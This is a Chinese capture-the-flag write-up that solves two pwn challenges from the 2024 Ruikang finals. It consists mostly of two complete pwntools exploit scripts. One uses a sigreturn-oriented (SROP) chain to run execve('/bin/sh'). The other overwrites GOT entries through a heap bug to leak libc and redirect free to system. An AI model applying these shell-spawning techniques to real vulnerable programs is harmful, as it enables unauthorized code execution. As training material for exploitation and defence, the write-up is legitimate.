






# 2024睿抗决赛pwn题解-先知社区

> **来源**: https://xz.aliyun.com/news/16371  
> **文章ID**: 16371

---

1. pwn1  
   审计代码  
     
   一眼打srop  
   第一次read我们把binsh写在栈上，然后利用write去计算binsh的地址。

  
此时我们binsh和syscall\_ret的地址都有了，构造srop打就行

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
p=process('./1')
elf=ELF('./1')
#libc=ELF('/root/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc.so.6')
libc=ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
def bug():
    gdb.attach(p)
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def pr(a):
    print(p.recv(a))
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
mov_rax_0xf=0x4004DA
main=0x4004F1
syscall_ret=0x400517
payload=b'/bin/sh\x00'
payload=payload.ljust(0x10,b'\x00')
payload+=p64(main)
#bug()
s(payload)
print(len(payload))
p.recv(32)
stack=u64(p.recv(6).ljust(8,b'\x00'))
li(hex(stack))
binsh=stack-0x118 
sigreframe=SigreturnFrame()
sigreframe.rax=constants.SYS_execve
sigreframe.rip=syscall_ret
sigreframe.rdi=binsh
sigreframe.rsi=0
sigreframe.rdx=0
payload=b'a'*0x10+p64(mov_rax_0xf)+p64(syscall_ret)+bytes(sigreframe)
sl(payload)
inter()

```

getshell



1. pwn2  
   菜单题

  
只能申请0x36的堆块

  
edit函数，这里存在漏洞  
攻击got表，先修改free为puts泄露libc地址，再将free改为system即可。

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
p=process('./2')
elf=ELF('./2')
#libc=ELF('/root/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc.so.6')
libc=ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
def bug():
    gdb.attach(p)
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def pr(a):
    print(p.recv(a))
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

def add():
    rl(b'your choice :')
    sl(str(1))
def edit(content1,content2):
    rl(b'your choice :')
    sl(str(2))
    rl(b'name:')
    s(content1)
    rl(b'data:')
    s(content2)
def free():
    rl(b'your choice :')
    sl(str(3))
def show():
    rl(b'your choice :')
    sl(str(4))
for i in range(0x3e):
    show()
add()
add()
free()
edit(p64(0x6010a0),p64(0))
add()
add()
#bug()
edit(p64(0x601010),p64(elf.plt['puts'])) #free=0x601018
free()
rl(b'\n')
libc_base=u64(p.recv(6).ljust(8, b'\x00'))-4071184
li(hex(libc_base))
#bug()
system,bin=get_sb() 
#bug() 
li(hex(system)) 
edit(b'/bin/sh\x00',p64(system))
free()
inter()
```

getshell  

